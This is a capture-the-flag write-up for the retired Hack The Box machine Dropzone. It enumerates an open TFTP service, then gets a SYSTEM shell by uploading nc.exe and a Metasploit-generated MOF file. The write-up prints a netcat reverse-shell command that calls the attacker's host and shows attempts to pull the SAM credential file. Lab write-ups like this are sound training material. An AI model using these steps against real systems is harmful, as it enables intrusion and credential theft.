 # Dropzone

This is the write-up for the box Dropzone that got retired at the 3rd November 2018.
My IP address was 10.10.14.2 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.90    dropzone.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/dropzone.nmap 10.10.10.90
```

```markdown
All 1000 scanned ports on 10.10.10.90 are filtered
```

UDP port scan:
```markdown
nmap -sU -o nmap/dropzone_udp.nmap 10.10.10.90
```
```markdown
PORT   STATE SERVICE
69/udp open  tftp
```

Scanning port 69 with default scripts:
```markdown
nmap -sC -sV -sU -p 69 10.10.10.90
```
```markdown
PORT   STATE SERVICE VERSION
69/udp open  tftp    SolarWinds Free tftpd
```

## Checking TFTP (Port 69)

We can connect to the TFTP service:
```markdown
tftp 10.10.10.90
```

There is no way to see what files are hosted, but by trying out anything, it shows the root path and in this case it is _C:_.
```markdown
tftp> get abcd
Error code 1: Could not find file 'C:\abcd'.
```

By trying some default Windows directories and filenames, we can try to get _C:/Windows_ and this time access is denied:
```markdown
tftp> get /windows
Error code 1: Access to the path 'C:\windows' is denied.
```

When trying to download the **SAM** file, it does not deny access, but its not working because it is used by another process:
```markdown
tftp> get /windows/system32/config/sam  
Error code 1: The process cannot access the file 'C:\windows\system32\config\sam' because it is being used by another process.
```

The SAM file can only be accessed by the _SYSTEM_ user and as access is not denied, it seems like that this service is running as with high privileges.

The service does not know the home directory _C:\Users_ that is default since **Windows 7** which could indicate that this box is older than that:
```markdown
tftp> get /users
Error code 1: Could not find file 'C:\users'.
```

In **Windows XP** the default home directories are in _C:\Documents and Settings_.
This can be verified by using an old method of accessing long filenames:
```markdown
tftp> get /DOCUME~1
Error code 1: Access to the path 'C:\Documents and Settings' is denied.
```

It is possible to find out if the machine is 32-bit or 64-bit by trying to access the directories with the installed programs:
```markdown
tftp> get /PROGRA~1
Error code 1: Access to the path 'C:\Program Files' is denied.
tftp> get /PROGRA~2
Error code 1: Could not find file 'C:\PROGRA~2'.
```

It only found _C:\Program Files_ and that confirms that this is a **Windows XP 32-bit** box.

## Exploiting Managed Object Format (MOF)

The module of **Metasploits PSexec** has three ways to execute code remotely on a Windows client:
- PowerShell upload
- Native upload
- MOF upload

These functions can be found in the Ruby scripts in the Metasploit directory:
- _/usr/share/metasploit-framework/modules/exploits/windows/smb/psexec.rb_
- _/usr/share/metasploit-framework/lib/msf/core/exploit/smb/client/psexec.rb_

The first two ways will not work because the SMB service is closed, but the third way **MOF upload** does not need any other service.
It stands for [Managed Object Format](https://docs.microsoft.com/en-us/windows/win32/wmisdk/managed-object-format--mof-) and is a language to describe **CIM** and **WMI** classes.

We can generate our own MOF file with **Metasploit**:
```markdown
use exploit/windows/smb/psexec

irb
```

The `irb` command jumps into the _interactive Ruby command line_ where it is possible to execute functions from the scripts.
```markdown
puts generate_mof("MOFtest", "FILEtest")
```

This generates the code for the MOF file that will be compiled into the WMI database. It has to be modified accordingly and the finished code can be found in this repository as _dropzone_mof.mof_. The code is executing a **Netcat** reverse shell:
```markdown
nc -e cmd 10.10.14.2 9001
```

Uploading `nc.exe` to the box via TFTP:
```markdown
tftp> mode binary
tftp> put nc.exe /windows/system32/nc.exe
Sent 59392 bytes in 6.0 seconds
```

Uploading the MOF file _dropzone_mof.mof_ to _/windows/system32/wbem/mof/_ where it will be automatically executed:
```markdown
tftp> put dropzone_mof.mof /windows/system32/wbem/mof/dropzone_mof.mof
```

After uploading the MOF file, it gets executed and the listener on my IP and port 9001 starts a reverse shell connection.
The home folder _C:\Documents and Settings\Administrator_ is accessible to get the _root.txt_ but it has not the flag:
```markdown
It's easy, but not THAT easy...
```

## Getting the root flag

There is a file in _C:\Documents and Settings\Administrator\flags_ called _"2 for the price of 1!.txt"_ that says the following:
```markdown
For limited time only!

Keep an eye on our ADS for new offers & discounts!
```

The **ADS** is a hint for **Alternate Data Streams** that are used to hide files.
To get the contents out of a data stream, the [Sysinternals tool Streams](https://docs.microsoft.com/en-us/sysinternals/downloads/streams) will be used.

Uploading _streams.exe_ via TFTP:
```markdown
tftp> mode binary
tftp> put streams.exe /windows/system32/streams.exe
Sent 342392 bytes in 33.1 seconds
```

Reading the hidden content from the file:
```markdown
streams "2 for the price of 1!.txt"
```

The flags of _user.txt_ and _root.txt_ are shown!
